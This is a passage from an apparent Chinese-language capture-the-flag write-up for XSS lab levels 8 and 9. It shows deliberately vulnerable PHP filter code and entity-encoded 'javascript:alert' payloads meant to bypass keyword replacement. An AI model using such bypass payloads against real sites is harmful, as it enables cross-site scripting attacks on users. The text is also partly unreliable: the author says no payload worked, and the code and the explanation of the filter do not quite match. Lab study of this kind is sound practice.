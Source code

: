 <br />

# level 8

部分源码:
```php
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);
echo '<center>
<form action=level8.php method=GET>
<input name=keyword  value="'.htmlspecialchars($str).'">
<input type=submit name=submit value=添加友情链接 />
</form>
</center>';
?>
```

* `<script` 转换成 `<scr_ipt`, `on` 转换成 `o_n`, `src` 转换成 `sr_c`, `data` 转换成 `da_ta`, `href` 转换成 `hr_ef`.
* 大小写失效
* `"` 被转义成字符实体`&quot` (html字符转义)


`javascript`会被替换成`javasc_rpt`, 使用`&#x72`来代替`r`:

```js
javascrip&#x74;:alert(1)

javascript:%61lert(1)

javasc&#x72;ipt:alert`1`

javasc&#x0072;ipt:alert`1`
```

> 这些payload我一个也没有尝试出来, emm. 不知道咋了.


<br />

# level 9

部分源码:
```php
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);
echo '<center>
<form action=level9.php method=GET>
<input name=keyword  value="'.htmlspecialchars($str).'">
<input type=submit name=submit value=添加友情链接 />
</form>
</center>';
```
